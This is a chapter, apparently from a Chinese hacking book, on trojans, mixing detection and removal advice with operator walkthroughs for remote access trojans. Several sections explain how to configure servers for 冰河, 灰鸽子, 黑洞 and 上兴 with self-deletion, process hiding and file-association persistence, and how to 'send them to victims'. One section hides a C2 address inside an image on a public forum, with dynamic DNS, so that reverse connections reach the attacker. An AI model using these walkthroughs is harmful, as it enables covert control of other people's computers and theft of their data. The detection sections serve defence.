端口反弹型木马的出现虽然让入侵的隐蔽等级又提高了一个层次，但是它也不是无懈可击的。由于木马需要实现主动连接客户端的功能，而大部分入侵者是不会使用固定 IP 的，在生成木马服务端的时候就必须使用一个相对固定的公共网络连接方式，让服务端以后能通过这个途径得到客户端的控制请求，这一途径经常是公共网络上的 HTTP 空间或 FTP 空间。

随着技术的发展，还出现过依赖动态域名直达客户端的端口反弹型木马，它们与客户端建立连接的步骤如下：

- 1. 服务端根据入侵者预设的反弹依据，连接到一个指定的公共网络空间里。通过读取某个数据文件获得客户端的当前 IP 地址；这个数据文件是通过客户端的自动更新上传实现的。
- 2. 获得 IP 地址数据后，服务端尝试与之建立连接。
- 3. 如果连接成功，则开始控制行为。

从上述步骤可以看出，反弹木马的连接过程相比于其他正常程序的网络连接，要多出一个获取客户端地址的步骤，这正是我们判断一个程序是否为反弹木马的重要依据。针对这个特性，用户可以使用以下步骤判断一个程序是否为反弹木马：

- 1. 安装 Iris、Ethereal 等工具；然后重启计算机。重启完毕后不要进行网络连接，直接运行监听工具并设置 Filter 为监听端口 80 和 21 的 TCP 通讯。
- 2. 连接网络，查看监听工具的数据包捕获情况。
- 3. 如果出现 HTTP 或 FTP 请求，及时查看其报文内容。如果没有采取简单的加密文本，一般能直接看到发出的报文连接请求得到了一个带有 IP 地址的回应数据，记录其本机端口和远程地址端口信息。
- 4. 查看天网等防火墙的网络应用程序端口情况，找到匹配以上记录的那个进程，这个进程有超过 80% 的几率属于反弹木马。

如果是新类型的直接使用动态 DNS 解析 IP 地址的反弹木马呢？这种木马其实更好发现，只要设置监听工具的 Filter 为监听 53 端口，即可迅速发现这些特殊的域名解析包。由于动态域名的命名方式都具有一定的个性特征，而且它们的厂商信息都可以在网络上直接查到，这样一来即可迅速判断机器上是否存在反弹木马。

##### 3、无进程木马后门

在 2002 年和 2003 年间，网络上出现了 3 款令当时的用户和安全技术者大呼头痛的木马作品，分别是“广外男生”“广外女生”以及“广外幽灵”，被大家称为“广外系列”。

这 3 个作品都使用了在当时颇感新鲜的技术——“远程线程注射”，做到了国内真正意义上的第一款“无进程”木马——DLL 木马。

“广外男生”的主体是一个可执行程序 EXE 和一个动态链接库 DLL，而 EXE 只是用于在开机时调用这个 DLL 执行木马主线程，并使用“远程线程注射”（RemoteThread Inject）技术将 DLL 与这个 EXE 脱离开来，然后 DLL 的线程进入系统里现有的任意一个进程的内存空间中维持运行。而用于执行最初的 DLL 启动工作，并实现在 DLL 被破坏时复活它的 EXE 会在 DLL 成功插入其他进程后自动退出。

这种传统的 DLL 启动方式成为早期大量 DLL 木马的加载方式，所以它存在一个弱点：

在计算机启动时，用户如果查看任务管理器的速度稍微快一些，也就能看到一个迅速消失的进程，而且这时期的 DLL 木马虽然实施了无进程启动，但却是被动的加载方式。在如今可以枚举并终止进程中相关 DLL 模块的程序遍天下的现状中，任意一款具备进程模块查找功能的程序，如 Process Explorer、IceSword 以及 WSYSCHECK 等都能将它们清理干净——它们的文件名太明显了。

但是不得不承认，早期的 DLL 木马技术虽然只是个雏形，但它却是为如今到处横行的真正无第三方 EXE 加载项（使用特殊技术令系统外壳程序加载它）的众多恶意软件和木马的 DLL 主体技术实现做了铺垫。

无进程木马后门从最初的第三方 EXE 加载 DLL 启动方式开始，到随后的使用 rundll32.exe 加载运行，再到利用 NT 服务的宿主程序 svchost.exe 实现启动，直到现在的技术巅峰——使用“ShellExecuteHook”（执行挂钩）技术，无一不令业界为此震惊！

经常关注安全的用户或许见到过“ShellExecuteHook”，如今许多木马和恶意程序都在用。

用户层使用它作为启动方式了。但这是一种什么技术，大家可能又会迷惑不解，究竟这个技术和木马有什么联系呢？其实这是一种正常的系统功能，名为“执行挂钩”，操作系统厂商开发它的初衷十分简单：

> 为程序提供一个额外的通知功能，以实现系统中任何程序启动时都提前让使用了“执行挂钩”的程序收到新程序的启动通知。简单地说，这是操作系统在出于某种程序交互需求的考虑下所衍生的技术，它的作用就是让一部分程序能够在其他程序开始运行之前就得知有新程序即将运行的通知，以及这个程序的映像文件名称等信息，用于接收通知的程序必须遵循 COM 对象编程标准编写。

这个技术是通过外壳程序 Explorer.exe 实现的，它的加载项被指定在系统注册表 `HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\ShellExecuteHooks` 内，用户浏览这里会发现里面并不是熟悉的路径和文件名，而是一堆奇怪组合的数字和字符串，这些字符串被称为“Class ID”（类唯一标识符，CLSID）。每一个 DLL 模块都拥有属于它自己的唯一 CLSID，操作系统自身是通过 CLSID 获得这个 DLL 的详细文件位置并加载它的。

在执行挂钩技术里，这个注册表键里的数据就代表了申请接受通知的 DLL 模块的 CLSID。当一个新程序执行时，系统会将这个消息通过注册表的执行挂钩入口派发出去，而后系统会载入这些符合 COM 对象标准的 DLL 文件，以执行它预先定义的线程代码，对消息进行处理。换句话说，也就是系统自己启动了声明为“执行挂钩”对象的 DLL 模块，它们的初次加载程序是外壳 Explorer.exe。

看到这里，各位是不是觉得这个过程很熟悉？没错，这简直就是第一代 DLL 木马依靠第三方 EXE 实现自启动的翻版！所不同的是，这次的 DLL 启动宿主是系统外壳自身，而且它还拥有一个任何第三方 EXE 宿主都无法具备的功能：**确保 DLL 在每一个进程启动时自动加载运行。**

这个技术最早被杀毒软件用于实现提前检测功能，然而现在它却被恶意软件、木马后门等程序编写者大量用在了不法行为之上，与 IFEO 的初衷一样，它们的功能都被曲解应用了。

由于这个技术的执行逻辑，使得木马主体 DLL 可以在每一个程序运行时也随着它执行，并随之进入它的内存空间，成为其模块之一。也就是说，这个技术使得做了保护措施的 DLL 木马变得难以彻底查杀，而且它不会产生任何敏感位置的启动项，也不需要指明一个加载器——它的加载器就是 Explorer.exe 自身。而广大用户中，能够理解并找到这个注册表项的人不多。

使用这个技术的木马如何查杀呢？其实别看它似乎很可怕，也是有弱点的：

> 由于这是 Explorer 实现的功能，它就必须依靠 Explorer 的存在而产生通知行为，一旦 Explorer 被终止执行，这类木马也就没有了加载器。

大部分手工查杀木马的用户都发现，使用这个技术的木马无法彻底删除，其实这与他们的使用习惯有关。大部分用户都是在需要用到什么工具的时候才会去运行它，而这时候执行挂钩又将木马 DLL 启动了一次，并可能产生了另一个随机字符串组合的 DLL 文件名来添加新的加载项，如此恶意循环，最终便无法彻底查杀。

正确的做法是，在运行了一堆自己预料到会用上的功能以后，将 Explorer.exe 终止，避免执行挂钩再次被调用。随后使用工具争取一次就能把位于注册表入口 ShellExecuteHooks 内的 DLL 注册信息和文件本体共同删除，这样一来即可将木马逐出机器。在工具的选择上，我推荐 Sysinternals 的 Autoruns，它提供的 ShellExecuteHooks 清理一体化功能非常不错。

## 4、含有 Rootkit 技术特征的新型木马

Rootkit 技术最大的特征，就是实现了无文件（你在系统的资源管理器中是无法找到它的文件的）、无进程（因为链接到了系统进程中）、无端口（因为通过系统进程向外通信）等功能；这样的木马，本身具有很多的危害性，加上“三无”技术，木马的查杀难度更加繁杂！

## 第三章　木马黑客之终极无间

上面提到的木马和恶意程序手段其实都是在用户层 Ring3 级别运行的应用程序，所以它们无法做得更加厉害，只要用户使用适当的安全工具即可检测并除去。然而现在，技术的战斗转入了系统核心层 Ring0。

从最初的 Rootkit 概念提出到现在短短几年的时间里，Rootkit 已经从一个神秘高深的危险技术变成了今天臭大街的东西。尤其是流氓软件，更是争先恐后地使用这一技术，达到自己无法被消灭的目的。用《大腕》里的一句经典台词来评价，那就是：“如果你写的恶意代码达不到 Rootkit 级别，你都不好意思发出去炫耀！”。如果当初说 Rootkit 是木马界里的艾滋病，那么今天的网络世界早已成为一个艾滋病村。

Rootkit 技术是如今这个时代的研究主流，从最初的可以在安全模式里轻易发现并删除的灰鸽子保护驱动、3721 保护驱动等，到现在的无视安全模式照常运行的驱动，它们在 Ring0 层里实现的功能早已不再是简单的文件隐藏保护手段，而是到了全面负责的地步。

例如有一种 Rootkit 分为 Ring3 层执行程序和 Ring0 驱动两部分，而它的 Ring3 启动项是一般用户无论如何也找不出来的，因为它的驱动实现的功能是在用户系统每次启动进入桌面、所有启动项都加载时将 Ring3 层可执行程序的路径写入启动项。当桌面加载完毕、所有启动项都执行完毕后，驱动又做了一件事情，它将刚才自己写入的启动项删除了，如此一来，不知情的用户根本就不知道自己机器上存在过如此险恶的东西。

而如今，随着网络的发展，木马也搭乘了网络的快车，它们的传播速度也越来越快。同时，一些系统漏洞、软件的溢出漏洞（比如 IE）等等也都让网页木马横行一时！

网页木马，并不是指使用网页编写的木马程序，也不是一种新的木马类型，而是一种通过浏览器漏洞实现普通木马传播的感染手段。

现在，浏览器已经成为众多入侵途径的窗口，攻击者通过漏洞执行一些嵌入了特殊构造代码的网页和脚本进行入侵，然后设置陷阱，让浏览器代替用户自动运行下载的木马程序，这一切，让人防不胜防。

其实不仅仅是浏览器自身漏洞可以引发木马危机，各种以浏览器为执行宿主的 BHO 控件漏洞也同样可以导致浏览器崩溃或自行下载执行入侵者指定的页面。如支付宝、Web 迅雷、百度搜霸、蓝天语音聊天室插件等 IE 控件，都出现过危害程度高的漏洞。

当一个被载入浏览器的控件出现漏洞时，对用户而言就等于是浏览器自身出了漏洞，因为它们形成了宿主关系，其影响已经形成一体了。当入侵者使用特殊编写的脚本诱使存在漏洞的控件发生溢出时，轻则控件发生崩溃，直接导致浏览器也跟着崩溃；重则发生缓冲区溢出，执行来自浏览器传递的攻击代码 ShellCode，从而导致用户机器变成一个“木马下载器”（Trojan-Downloader），自动下载执行木马等危险程序。

网页木马的历史非常悠久，自从 1999 年 MIME 执行漏洞被公开后，早期的网页木马便宣告出世。如果你是那个时代走过来的用户，你一定听说过“求职信”，它就是使用浏览器 MIME 漏洞传播的早期恶意程序之一，随后的“大无极”更是把漏洞影响扩散到了严重危害的程度。

大部分网页木马的共同点，都是依赖于用户机器的浏览器漏洞来实现下载木马进行本体执行的。在相关厂商未出有效的安全补丁之前，我们能做的只有通过某种手段预防漏洞危害。那就是利用浏览器自身提供的一个小功能，将问题控件暂时屏蔽。细心的用户在阅读一些安全小组的漏洞分析报告时，经常会看到这么一句：“在软件厂商未发布安全补丁之前，我们建议用户对该控件设置 Killbit”。

那么，什么是“Killbit”呢？微软编号 Q240797 的知识库文章《如何禁止 ActiveX 控件在 Internet Explorer 中运行》一文对此做出了诠释：

注册表设置完成，这种设置叫做设置“killbit”。一旦设置了“killbit”，该控件即永远不可加载，即使将其完全安装也是如此。此设置可以确保，即使有漏洞的组件被引入或重新引入系统中，它也不具活性，没有破坏力。

实际上，这一设置的本质是将存在漏洞的控件在浏览器里的兼容性标识设置为“不安全”，于是，在预先设定的浏览器加载逻辑里，这一“不安全”的控件就不会被加载，从而保证浏览器不会携带着这个问题控件运行，其相关漏洞自然也就没有了入口。

兼容性标识位于系统注册表的 **HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility** 下，其子键为各个 ActiveX 控件的 CLSID（有关 CLSID 概念请参阅本文前面所述内容），每个 CLSID 项里都有一个名为“Compatibility Flags”的 DWORD 类型值。当它的值为“0x00000400”，即十六进制 400 或十进制 1024 时，浏览器就会认为这个控件不安全，从而将其忽略。

同时，微软还提供了“兼容的安全 CLSID 替代”功能，用于在对某个问题控件使用 Killbit 后，指定另一个功能替代控件。它是通过用户建立一个名为“AlternateCLSID”的字符串实现的，其内容为功能替代控件的 CLSID。

### 3.1.3　拿什么拯救我们的系统

毫无疑问，虽然每个时代的用户都在经历着木马的来袭，但是很明显，早期的用户要过得更舒服一些，因为那时候还没有 Rootkit，还没有这么多 DLL 木马，更没有现在这种满大街会武术的流氓景象。时代在发展，这些技术也会在彼此争斗之中各自获得突破，转而往更高的等级发展，只是每个时代的初级用户都不可能和当今的技术同步，于是用户成了技术发展的受害方。

并非每个用户都是安全专家，所以我们寄希望于反病毒产品。但它毕竟是商业的产品，并非所有用户都能获得足够的更新。如果有一天，用户机器上的反病毒产品成为了傀儡，而用户仍在毫不知情地信任它的扫描结果，那会是什么样的一种情形呢？在这个相对险恶的网络环境里，我们还能怎样做？

虽然木马程序手段越来越隐蔽，但是苍蝇不叮无缝的蛋，只要加强个人安全防范意识，还是可以大大降低“中招”几率的。对此，笔者有如下建议：

- 安装个人防病毒软件、个人防火墙软件；
- 及时安装系统补丁；
- 对不明来历的电子邮件和插件不予理睬；
- 经常去安全网站转一转，以便及时了解一些新木马的底细，做到知己知彼，百战不殆。

防止病毒和木马，要求从源头抓起，也就是要杜绝一切木马病毒的传播途径。在对待网页木马上，使用瑞星卡卡可以杜绝很多网页木马的侵入，如图 3。


图 3

同时，还要积极地打上 IE 补丁，这样网页木马就无法通过 IE 的漏洞来下载和执行木马了。这里笔者推荐使用 360 安全卫士的漏洞修复功能来修补系统漏洞，如图 4。


图 4

同时，为了防止木马通过 U 盘等进行传播和感染，还可以使用 360 安全卫士的保护功能，这样可以在一定程度上减少木马的感染，如图 5。


图 5

对于木马的发现，可以使用一些 DLL 模块查询工具，查看是否有 DLL 木马注入到系统进程中，做到早发现，早查杀！如图 6。


图 6

## 第三章　木马黑客之终极无间

查杀木马，除了可以使用一些正版的杀毒软件之外，还推荐使用一些免费提供的，而且杀毒效果非常优秀的软件，比如 WINDOWS 系统清理助手，如图 7。


图 7

至于更多跟木马对抗周旋的方法，会在后面的章节中给读者进行介绍，休息一会儿，咱们再继续！

## 3.2　反弹木马使用

当今主流的木马类型就是反弹木马，但是为了让读者清晰地知道木马的发展历史，这里也选取了著名的正向连接木马代表——冰河。同时，本节介绍了反弹木马的配置、使用以及查杀，让读者在查毒杀毒过程中，做到知其然，知其所以然！

### 3.2.1　正向连接木马的流星史

作为木马世界的一颗耀眼流星，正向连接木马曾经风行一时，而国产正向连接木马的“带头大哥”无疑就是木马冰河了。

木马冰河分为控制端和被控制端，如图 8，运行后如图 9，清爽大方的操作界面，让很多计算机迷们一饱黑客远程控制的瘾。


图 8


图 9

选择“文件”下的“配置服务器程序”，然后单击“...”按钮，在弹出的打开对话框中选择木马冰河的服务端文件，接着单击“打开”按钮，如图 10。


图 10

现在即可开始对冰河服务端进行配置。勾选“自动删除安装文件”，这样配置出来的服务端在被受害者运行之后，就会自动删除自己，达到隐藏的目的，如图 11。


图 11

我们选择“自我保护”项，可以设置让服务端和 TXT 文件进行关联，这样做的目的就是一旦受害者运行了记事本程序，也就会启动本木马程序了，如图 12。


图 12

此时单击“确定”按钮即可完成木马的配置流程，现在把这个配置的木马服务端发送给受害者，如果他们电脑的安全性很差，执行这个服务端后就有可能中马。

现在，找到“开始”菜单中的“添加计算机”子菜单，即可添加受害者的电脑到远程控制列表中来了，如图 13。


图 13

此时就可以开始对远程电脑进行文件操作了，比如上传下载远程文件，并且可以进行删除、重命名等操作，如图 14。


图 14

接着我们选择“命令控制台”标签项，这里可以对受害者的电脑进行一些控制，比如得到对方电脑系统的基本信息，如图 15。


图 15

上面介绍了木马冰河的巨大危害，它可以轻易地控制我们的电脑，窃取信息和资料，那么如何清理它呢？我们可以使用 360 安全卫士来进行检测。

运行 360 安全卫士的“系统全面诊断”，可以看到在“启动项”那里有木马冰河的身影，如图 16。并且可以看到在文件关联那里，TXT 文件关联的不是记事本文件，而是一个陌生的程序文件（其实就是冰河木马服务端），如图 17。


图 16


图 17

现在，就可以使用 360 安全卫士的“木马查杀”功能，对木马进行查杀了，如图 18。


图 18

### 3.2.2　反弹木马之王——灰鸽子

谈到反弹木马就一定要谈到灰鸽子了，因为它是中国本世纪名声最大、用户使用量第一的反弹木马。可以说，就是因为灰鸽子的出现，一大批只会系统基础操作的电脑用户也可以摇身变成一个控制你计算机的黑客。

- 一、灰鸽子配置和上线

随着 ADSL 拨号连接的盛行，反弹连接开始崭露头角，其中最闪耀的无疑就是灰鸽子。灰鸽子以其功能不断强大和完善，一直“霸占”反弹木马排行榜的第一名！

运行灰鸽子，单击主界面上的“配置服务端”按钮，即可弹出灰鸽子的服务端配置窗口。在“自动上线设置”中可以填写你的 IP 地址，或者反弹域名，如图 19。


图 19

然后，选择“安装选项”标签项，在这里可以选择安装完毕之后自动删除，如图 20。


图 20

接着选择“启动项设置”标签项，可以设置灰鸽子的启动方式，如图 21。


图 21

最后选择“高级选项”标签项，可以勾选“使用 IEXPLORE.EXE 进程启动服务端程序”和“隐藏服务端进程”，如图 22。


图 22

一切设置完毕后单击“生成服务端”按钮，这样就生成了一个安装文件。只要把这个安装文件发送给受害者，当他运行了这个服务端程序后，在灰鸽子控制端就显示出他的主机，这样就可以开始实现对他主机的一系列操作了，如图 23。


图 23

我们选择“远程控制命令”标签项，然后单击左边的“系统信息”按钮，这样就可以查看对方主机的系统信息了，如图 24。


图 24

然后选择“远程控制命令”标签项下面的“进程管理”子项，再单击右边的“查看进程”按钮，如图 25。这样就可以查看对方计算机当前运行的进程信息，并且可以选择一个进程，然后单击右侧的“终止进程”按钮对其进行操作。


图 25

接着再选择“远程控制命令”标签项下的“服务管理”子项，这里可以查看和管理远程计算机的服务信息，如图 26。


图 26

而“远程控制命令”标签项下的“代理服务”子项可以把远程计算机做成一台代理服务器，这样就可以以肉鸡为跳板进行 IP 地址的隐藏了，如图 27。


图 27

现在选择“注册表编辑器”标签项，在这里可以对远程主机的注册表进行各项操作，如图 28。

图28

上面谈及了灰鸽子的各种使用，那么在我们中了灰鸽子木马之后，怎么除掉它呢？在中了灰鸽子木马之后，会发现自己的系统中莫名其妙地出现了一个 IE 进程（读者朋友可以事先关闭所有的 IE 窗口，然后使用 WSYSCHECK 这款工具来查看本机的网络连接，这时可以看到依然有一个 IE 进程连接着外网），如图29。

图29

同时，使用 WSYSCHECK 这款工具的“服务管理”功能（使用 WSYSCHECK 的“服务管理”功能和系统自带的“服务查看”功能是不同的，在 WSYSCHECK 中列出来的是计算机的所有服务，就算是被木马隐藏的服务也可以显示出来），可以看到一个陌生的服务，其实它就是灰鸽子的服务了，如图30。

图30

既然我们已经查出本机中了灰鸽子木马，那么如何查杀呢？推荐使用 360 安全卫士这款工具，通过它的“清理恶意插件”功能，可以快速地检测出灰鸽子木马。然后选择该木马，单击“立即清理”按钮，即可把灰鸽子木马“请出”我们的电脑系统，如图31。

图31

同时，灰鸽子工作室还推出了一款灰鸽子木马的专杀工具，读者朋友可以到 http://www.huigezi.net/ 去下载，如图32。

图32

软件的使用非常“傻瓜化”，只需单击“开始检测”按钮即可（在开始检测之前最好先关闭 IE 浏览器），如图33。

图33

这样，程序就会自动检测系统中是否有灰鸽子木马，如果有的话，就会开始进行卸载，并且提示你重启计算机完成病毒的清除，如图34。

##### 一、灰鸽子也来另类上线

在前面介绍了灰鸽子的一般上线方法，由于灰鸽子的运用非常广泛，所以很多用户研究出一些灰鸽子的另类上线方式。这里，我就来给大家介绍下如何使用比较另类的方式实现灰鸽子的上线。大家是否知道，使用网络相册也可以来上线我们的灰鸽子木马呢？

这种方法仍然使用的是 IP 文件上线，要求有自己的 Web 空间。如果我们没有，该怎么办呢？那就用相册代替（现在很多论坛都有图片上传功能，和相册的利用方式相仿）！

使用相册进行灰鸽子的上线，那么这个 IP 文件就只能是 gif 或者 jpg 这种图片格式文件！也就是说，只能对这种图片格式的文件做“手脚”了！

好了，第一步的思路理清楚了，对图片“动”手脚等下可以用 UltraEdit 搞定，现在开始思考第二步。

现在一般的电脑上网用户都是通过 ADSL 分配的动态 IP 地址，所以在灰鸽子的上线里，就需要使用到动态域名，通过它实现 IP 的更新和绑定！这里我们推荐 3322.org 推出的动态域名服务！

我们再来看看鸽子服务端用 IP 文件上线的方式。每次开机，灰鸽子的被控制端自动下载 IP 文件，如果得到的是域名，还要分解出这个域名，然后 ping 这个域名得到 IP 地址，最后主动去连接这个 IP 地址，这个就是所谓的反弹连接！也就是被控制端主动去连接控制端！

思路已经很清晰了！首先，来编辑一个含有鸽子控制端 IP 和端口的图片文件。这里我使用 UltraEdit 打开一个图片文件，可以看到图片的代码了。在 UltraEdit 中拖动滚动条，拉到图片文件代码的末尾，输入 `http://127.0.0.1:8000/wwwroot/`（也可以把这段代码复制到剪贴板中，然后使用粘贴功能粘贴到图片文件代码的末尾），然后保存所有修改，如图35。

> **小知识**
>
> 灰鸽子被控制端对 IP 文件的识别是通过关键字来解析的！一般的格式要求为：`http://url:port/wwwroot/`。其中 url 和 port 是要求我们修改的！
>
> 这个格式的 IP 文件，支持静态 IP 格式（鸽子解析 IP 和端口时的固定格式，不能随便修改！），如：`http://127.0.0.1:8000/wwwroot/`。同时，也支持动态 IP 格式（动态域名为表现形式），如：`http://pespin163.3322.org:8000/wwwroot/`。

接着我们找到一个能够上传图片的论坛，开始上传我们修改过的图片文件，如图36。这个图片可以在论坛中正确显示出来，但是却是被我们“动过手脚”的。

图36

图片上传完后就可以得到它的网络地址，我这里是“http://127.0.0.1/bbsxp/UpFile/UpAttachment/2006-11/2006112019523.jpg”。现在打开灰鸽子来配置一个服务端！在 IP 文件地址栏输入我们上传的图片的网络地址，然后设置好其他的选项后，点击“生成服务端”！如图37。

图37

现在我们来整理下思路。配置好的被控制端在运行后，会下载我们指定的 IP 文件，也就是 http://127.0.0.1/bbsxp/UpFile/UpAttachment/2006-11/2006112019523.jpg 这个文件。服务端把该文件下载完毕后，会解析出其中的控制端 IP 地址和控制端打开的监听端口。由我们刚才修改的图片可知（http://127.0.0.1:8000/wwwroot/），鸽子的服务端会得到客户端的 IP 为 127.0.0.1，侦听的端口为 8000。然后，鸽子会主动去连接拥有这个 IP 的主机！OK，在虚拟机中运行这个生成的服务端，鸽子已经正常上线了！如图38。

图38

上面说的是用静态 IP 地址来让灰鸽子上线，其实用动态域名让鸽子上线，操作原理也是一样的。首先用 UltraEdit 打开图片文件，在图片文件代码的末尾追加“http://pespin163.3322.org:8000/wwwroot/”这样的字符串（其中，http://pespin163.3322.org 是笔者自己在希网申请的动态域名！），如图39。然后找到一个可以上传图片的空间，上传我们修改过的图片文件即可。

图39

现在就要修改我们的动态域名绑定的 IP 地址了。要获得本机的 IP 地址，可以使用 CMD 模式下的 **IPCONFIG** 命令，如图40，IP Address 后面的内容就是我的 IP 地址；Default Gateway 后面的 172.19.0.1 为我的默认网关！

图40

然后来到 3322 希网动态域名管理页面，新建一个域名，在“IP 地址”处输入刚才我们获得的 IP 地址，如图41。注意：如果处于内网，想要控制外网的鸽子，是需要在网关上做端口映射的。

图41

接下来用灰鸽子生成新的服务端，把它发送给受害者让其运行，我们连接成功就可以进行控制了。

解释一下，在这里，灰鸽子的服务端被运行后，会下载这个网络图片到本地。接着解析这个图片文件，得到主机的“IP 地址”为 pespin163.3322.org，端口为：8000。因为这是一个域名，而在 TCP/IP 协议中，网络消息包的传输只能通过 IP 来建立连接。所以，这时灰鸽子的被控制端会发出一个 ping 命令，也就是 ping pespin163.3322.org，得到一个主机的 IP 地址。得到 IP 地址后，将主动向被控制端侦听的 8000 端口连接！所以，鸽子的反向连接其实是通过 IP 地址，而不是表面上的域名。

最后，通过这篇文章，读者不仅知道了灰鸽子的新版上线方式，想必也对 TCP/IP 通讯和木马的连接方式有了新的认识吧？

## 3.2.3 其它经典的老牌反弹木马

除了上面介绍的灰鸽子木马，在木马世界中还有一些闪耀光芒的“木马明星”，比如黑洞、上兴远程控制等。在本节，我们就来了解下它们吧！

##### 一、黑洞

黑洞是由陈经韬开发的一款反弹木马，功能强大，隐藏性能和上线稳定性极佳。他的网站是 www.138soft.com，如图42，读者朋友可以去和他进行交流，呵呵。同时，在他的主页提供了黑洞远程控制程序的下载，如图43。

图42

图43

我们选择“黑洞远程控制”软件进行下载，完毕之后即可双击运行黑洞程序，主界面如图44。

图44

此时，在“文件”菜单中选择“配置服务端程序”菜单，在弹出的“创建安装程序”对话框中，去掉一些不必要的选项，如图45。

图45

然后来到“控制选项”页面，可以选择所有的控制选项，如图46。最后来到“连接选项”，在这里输入反弹 IP 地址，并且输入上线显示名称（必填），如图47。

图46

图47

此时单击“生成”按钮即可生成一个木马服务端，再把这个木马服务端发送给受害者。当对方运行之后就会在黑洞的主控端中出现被控制的主机了，如图48。

图48

选择目标主机，然后单击工具栏上的“文件管理”按钮，即可对远程主机的文件进行操作，如图49。另外，还可以单击“TELNET”按钮来对对方主机进行 CMD 操作，如图50。

图49

图50

单击“注册表”按钮就可对对方的注册表进行操作，黑洞的注册表操作非常优秀，几乎没有延迟，如图51。

图51

单击“系统控制”按钮，会弹出“系统控制”窗口，在这里可以对对方主机进行多项操作，包括查看对方的系统信息、进程信息、窗口信息等等，同时还可以实现其他的控制，如图52。

图52

黑洞如此强大，如何才能有效地防御其造成的侵入呢？安装了 360 安全卫士的读者朋友，在黑洞被安装时往往会提示“黑洞远程控制程序正在安装到系统中！”，如图53，这时可得小心了哦。

图53

另外，就算你没有安装黑洞程序，你也可使用内核级别的进程管理工具 WSYSCHECK 来查看当前系统运行的进程信息。如果查看到一个陌生的进程“BRC_SERVER.EXE”，如图54，那可得小心了。

图54

此时，使用 WSYSCHECK 的“服务管理”功能，可以看到一个被红色标注的系统服务，如图55。

图55

这时来到 WSYSCHECK 的“安全检查”页面下的“文件搜索”子页面，勾选“限制时间”（表示从选定的时间开始搜索），然后单击“开始”按钮，就可以看到一个新安装的文件，如图56。

图56

而使用“端口状态”查看功能，可以看到有一个陌生的进程正在访问网络，如图57。

图57

360 安全卫士也可以搜索出是否安装了黑洞。首先选择“常用”下的“系统全面诊断”，来到“系统服务”列表处，可以看到其中有图标为“？”的系统服务。再看其名称和描述，果然是“黑洞”！如图58。

图58

此时使用 360 安全卫士的“清理恶意插件”功能进行扫描，可以看到“黑洞”被查找到了，如图59。但是，360 安全卫士也不是万能的，对“黑洞”的一个文件它显示成了“灰鸽子变种”，如图60。

图59

图60

我们可以选中这个变种文件，然后单击“立即清理”按钮即可清除掉“黑洞”服务端。

##### 二、上兴

上兴远程控制程序的官方网站为：http://www.98exe.com/，大家可以到该网站和作者进行沟通交流，如图61。运行上兴控制程序之后，会看到一个很清爽的界面，如图62。

图61

图62

单击“配置服务端”按钮就可以开始配置一个服务端程序。在 IP 地址输入框中输入“127.0.0.1:8181”，连接密码 1234，然后单击“生成服务端”按钮，如图63。

图63

然后把生成的服务端程序发送给受害者，对方一旦运行之后，其主机就会马上在控制端上线，如图64。

图64

现在就可以控制这台上线主机了，上兴远程控制程序类似于灰鸽子的使用方法。我们选择主机之后单击“注册表”按钮，如图65，这里可以对对方主机的注册表进行操作。

图65

单击“服务管理”，可以对远程主机的服务进行管理操作，如图66。单击“进程管理”，可以看到对方主机当前系统中运行的进程，如图67。

图66

图67

为了方便我们进行 CMD 的操作，上兴远程控制程序还提供了“命令提示符”的模拟窗口，如图68。

图68

区别于一般的国产反弹木马程序，上兴远程控制软件还有很出彩的功能，那就是数据嗅探，这对我们内网渗透有很好的辅助作用，如图69。

上面介绍了上兴远程控制软件的配置和上线使用，现在介绍如何清理本机的上兴服务端程序。安装了 360 安全卫士的用户，当系统在安装上兴服务端时，会弹出一个提示窗口，如图70。如果出现这样的提示，那可就要注意了！

图69

图70

我们依然用 WSYSCHECK 这类内核级工具来进行查找，可以看到，在没有运行计算器的时候出现了 CALC.EXE 进程，这就说明你的计算机中了上兴木马，如图71。

图71

同样，我们可以关闭 IE 窗口，在没有开 IE 的情况下系统居然有 IE 进程？而且正在请求连接网络。在这里，为了给大家看下正常的 IE 端口和木马的进程端口，我打开一个 IE，随便浏览下网页，可以看到在远程端口那里显示的是 80（正常端口号），如图72，而木马插入的 IE 远程端口是 8181，如图73。

图72

图73

使用 WSYSCHECK 的“服务管理”功能，可以看到一个被显示为红色的可疑服务 Windows_rejoice2007_44，其路径为 c:\windows\rejoice44.exe，如图74。

图74

如果你的系统有上面这些特征，那么“恭喜！”，你，很不幸地中了上兴木马了。那么如何使用手工的方法进行上兴木马的查杀呢？运行 WSYSCHECK，选择“安全检查”

## 第三章 木马黑客之终极无间

下的“文件搜索”，然后设置一个比较近的时间，就可以单击“开始”按钮进行搜索，这样就会找到最近的一些文件，如图75。


图75

其实图75中的那两个文件就是上兴的服务端程序，那么如何清除它们呢？首先要结束那个伪装的 CALC.EXE 进程，这个进程是一个伴随进程，如果你杀掉上兴的那个伪 IE 进程，那么这个伴随进程会重新启动上兴服务端。

杀掉了伪装的 CALC.EXE 进程和伪 IE 进程之后，就可以来到 WSYSCHECK 的“服务管理”页面，选择显示为红色的可疑服务，然后按鼠标右键，在弹出的菜单中选择“删除选中的服务”即可，如图76。


图76

这样，我们就清除掉了上兴的服务，上兴服务端就不会在下次运行了。现在把上兴服务端程序的路径填写到 DOS 删除文件列表，然后单击“执行 DOS 删除”按钮，即可在重启时删除服务端文件，如图77。


图77

#### 3.2.4 新兴的反弹木马

生长契机！所以，每隔一段时间，就会诞生出一批新的木马。本节就来介绍一些新出现的木马软件，让读者朋友能够了解新鲜事物，并且战胜新鲜事物！

##### 一、木偶2008

在介绍木偶2008之前，笔者首先介绍另外一种黑客常用的配置木马上线的方式，那就是反弹域名。

- 1、转向域名

说道转向域名，笔者推荐使用 3322.org 的希网动态域名，没有注册过这个域名的读者，可以到 `http://www.3322.org/dyndnspage/service.html` 免费注册，如图78。


图78

单击“我同意”按钮，来到注册页面，填写好注册信息，其中的邮箱一定要填写正确，因为希网会把注册的密码发送到这个邮箱中。

在注册完毕后，会在注册时填写的邮箱中收到一封注册确认的信件，此时你就可以修改其中希网生成的密码为自己的密码。因为在希网第一次注册时，不支持用户自己的密码；要使用自己的密码，就要在注册时填写的邮箱中修改。

注册成功后可以登录希网，来到“管理域名”页面中，新建一个域名，比如 xiaolong1212.3322.org，如图79。


图79

这里会使用到我们的外网 IP，如何获得呢？单击屏幕左下角的“开始”→“运行”，输入“CMD”，在弹出的命令提示符窗口中输入 ipconfig 命令，在 IP Address 后面就可以看到我们的外网 IP 地址了，如图80。


图80

